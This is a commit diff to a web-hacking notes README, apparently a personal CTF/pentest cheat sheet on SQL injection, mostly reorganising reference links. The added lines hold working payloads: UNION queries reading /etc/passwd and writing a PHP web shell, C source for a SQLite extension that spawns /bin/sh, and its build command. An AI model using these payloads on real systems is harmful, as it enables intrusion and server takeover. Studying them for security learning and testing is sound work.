

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, 2 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
clean web

````diff
--- a/web/README.md
+++ b/web/README.md
@@ -299,15 +299,18 @@ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
 ## SQLi
 
 - https://phptherightway.com/#databases (`mysqli`|| `pdo` connectors)
+- https://pentestmonkey.net/category/cheat-sheet/sql-injection
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
-
+- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#ByPassingLoginScreens
+- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#SQLInjectionQuickChecks
 
 ### Blind/Error based/Stacked Queries/Union based/Time based SQLIs
 
-- https://pentestmonkey.net/cheat-sheet/sql-injection/
 - https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet     # Database identification
 - https://exploit-notes.hdks.org/exploit/web/sql-injection-cheat-sheet/
 - https://exploit-notes.hdks.org/exploit/web/sql-injection-using-sqlmap/
+- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#StackingQueries
+- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#InsertPayloadSample
 
 
 `Protection`:
@@ -343,6 +346,40 @@ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
 ' union select id, origine, message, 0 from chall #
 ```
 
+#### Read / Write From File
+
+- https://book.jorianwoltjer.com/web/server-side/sql-injection#rce-through-cli
+- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#BulkInsertFromFile
+
+```sql
+# Read file
+UNION SELECT LOAD_FILE ("etc/passwd")--
+
+# Write a file
+UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-- -# /tmp/shell.php?cmd=id
+```
+
+```c
+#include <sqlite3ext.h>
+SQLITE_EXTENSION_INIT1
+
+#include <stdlib.h>
+#include <unistd.h>
+
+int sqlite3_extension_init(sqlite3 *db, char **pzErrMsg, const sqlite3_api_routines *pApi) {
+  SQLITE_EXTENSION_INIT2(pApi);
+
+  execve("/bin/sh", NULL, NULL);  // Spawn an interactive shell
+
+  return SQLITE_OK;
+}
+```
+
+```bash
+gcc -s -g -fPIC -shared extension.c -o extension.so
+#sqlite> select load_extension('./extension');
+```
+
 #### Blind
 
 - https://wiki.zenk-security.com/doku.php?id=failles_web:blind_sql_injection
@@ -353,20 +390,6 @@ admin' and length(password)=8--
 admin' and (select substr(password,1,1)='a')--
 ```
 
-### Read / Write
-
-```sql
-# Read file
-UNION SELECT LOAD_FILE ("etc/passwd")--
-
-# Write a file
-UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
-```
-
-#### RCE - GCC extension
-
-- https://pentestmonkey.net/category/tools/audit
-
 ### Fragmented
 
 - https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/
@@ -376,9 +399,11 @@ UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
 - https://slcyber.io/assetnote-security-research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/  # Test \'? and ?%00 escapes
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#pdo-prepared-statements
 
-#### Second Order
+### Second Order
+
 
 - https://portswigger.net/kb/issues/00100210_sql-injection-second-order
+- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#SecondOrderSQLInjection
 - https://book.hacktricks.wiki/en/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap.html
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#second-order-sql-injection
 
````
Also changed, not shown: other parts of web/README.md (+2 -0 lines).
